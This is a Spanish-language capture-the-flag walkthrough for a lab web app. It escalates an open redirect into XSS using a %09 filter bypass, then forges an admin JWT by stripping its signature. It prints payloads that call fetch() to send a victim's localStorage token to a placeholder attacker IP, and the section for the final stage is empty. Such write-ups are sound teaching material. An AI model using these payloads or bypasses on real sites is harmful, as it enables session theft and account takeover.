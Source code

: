 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, vamos a ver cómo podemos acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, vamos a ver cómo podemos leer el archivo /flag.



</details>
